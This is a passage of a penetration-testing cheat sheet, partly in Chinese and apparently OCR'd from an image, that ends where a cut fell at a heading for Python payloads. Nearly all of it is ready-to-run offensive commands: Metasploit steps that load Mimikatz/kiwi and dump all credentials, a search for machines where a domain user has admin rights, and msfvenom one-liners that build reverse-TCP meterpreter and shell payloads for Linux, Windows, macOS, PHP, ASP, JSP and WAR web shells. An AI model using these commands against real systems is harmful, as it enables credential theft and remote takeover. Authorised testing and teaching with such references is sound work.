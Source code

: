 ````bash
加载Mimikatz/kiwi并获得凭证

`load kiwi`

`creds_all`

识别所提供的域用户具有管理访问权限的其他计算机

`run post/windows/gather/local_admin_search_enum`

`set AUTORUNSCRIPT post/windows/manage/migrate`

### msf payloads ###

列出选项

`msfvenom –l`

### 二进制 ###

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST= LPORT= -f elf > shell.elf

msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe > shell.exe

msfvenom -p osx/x86/shell_reverse_tcp LHOST= LPORT= -f macho > shell.macho
```

### Web payloads ###

PHP

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST= LPORT= -f raw > shell.php

cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

监听

```bash
set payload php/meterpreter/reverse_tcp
```

ASP

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp
```

JSP

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f raw > shell.jsp
```

WAR

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war
```

### 脚本 payloads ###

Python
````